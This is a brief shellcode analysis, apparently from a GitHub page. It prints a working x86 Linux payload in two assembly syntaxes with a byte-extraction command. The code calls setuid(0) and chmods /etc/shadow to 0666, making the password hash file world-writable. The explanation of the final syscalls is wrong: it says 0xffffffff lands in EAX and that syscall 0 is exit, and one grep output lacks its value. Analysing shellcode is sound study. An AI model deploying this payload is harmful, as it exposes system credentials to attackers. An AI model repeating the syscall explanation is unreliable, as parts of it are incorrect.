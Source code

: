 ## Original shellcode

```ASM
xor    %ebx,%ebx
mov    $0x17,%al
int    $0x80
xor    %eax,%eax
push   %eax
push   $0x776f6461
push   $0x68732f63
push   $0x74652f2f
mov    %esp,%ebx
mov    $0x1b6,%cx
mov    $0xf,%al
int    $0x80
inc    %eax
int    $0x80
```
In order to get the shellcode in Intel format, let's just create an ASM file with this code, compile them using GNU Assembler (*gas* ou *as*; which came with *binutils* package).

Note: on a x64 system, compilation must by adding *--32*.

Once code is compiled it can be easily extracted using:  *objdump -d ./a.out -M intel|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -c24-100*. For this, shellcode, only the main part will be compiled.

```ASM
xor    ebx,ebx
mov    al,0x17
int    0x80
xor    eax,eax
push   eax
push   0x776f6461
push   0x68732f63
push   0x74652f2f
mov    ebx,esp
mov    cx,0x1b6
mov    al,0xf
int    0x80
inc    eax
int    0x80
```

A quick analyse of the shellcode shows that syscal 0x17 (23 / *setuid*) is called with 0. Then, *//etc/shadow* is pushed on the stack and syscal 0xF/15 (chmod) is called with 0x1b6 (666) as argument. Finally, if chmod suceed, 0xffffffff is put in EAX and syscall 0 (exit) is called. 

```sh
$ grep 23 /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_setuid   23
$ grep 15 /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_chmod   15
$ grep 0 /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_restart_syscall      0
$ grep 1 /usr/include/i386-linux-gnu/asm/unistd_32.h
#define __NR_exit
```
